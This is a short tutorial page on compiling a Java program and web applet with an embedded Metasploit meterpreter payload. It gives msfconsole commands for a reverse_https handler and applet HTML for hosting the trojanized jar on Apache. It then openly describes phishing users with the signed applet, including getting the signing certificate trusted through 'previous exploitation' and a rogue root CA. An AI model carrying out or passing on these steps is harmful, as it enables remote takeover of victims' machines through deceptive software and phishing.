 ## Compiling your Java Applet

At this point you should compile and run your Java program from Netbeans. You should get your normal Java Program running along with Metasploit running.

From msfconsole:
```
$ use exploit/multi/handler
$ set payload java/meterpreter/reverse_https
$ set lhost <IP Address>
$ set lport 443
$ set exitonsession false
$ exploit -j -z
```

You should get a meterpreter session and your java program should execute normally. You can even close your java program, and still maintain a meterpreter session.

### Web Applet Compiling

Now to get it working for web applet. After adding the metasploit codebase to the project, fixing the errors, and testing it, we need to deploy it to the web server.

1. Compile the latest build for your project and goto the dist directory. Copy all the files there. Should be:

    * launch.html
    * launch.jnlp
    * newProject.jar
    * README.TXT

1. Copy these files to your `apache2/nginix` server.
1. For Apache2, copy these files under `/var/www/html`. Then create/modify your `index.html` file with the following content:
```html
<applet id="newProject"
        width="400"
        height="800"
        codebase="http://192.168.1.5"
        archive="newProject.jar"
        code="newProject.webApplet">
</applet>
```
1. After all of this is setup, you can now phish users with a signed Java Applet. Make sure that the certificate that was used in the signing is trusted by the users (By previous exploitation and deploying your own root CA, or by using a trusted vendor of code signing).

Troubleshooting Reference: [Clear out the java cache](https://www.java.com/en/download/help/plugin_cache.xml)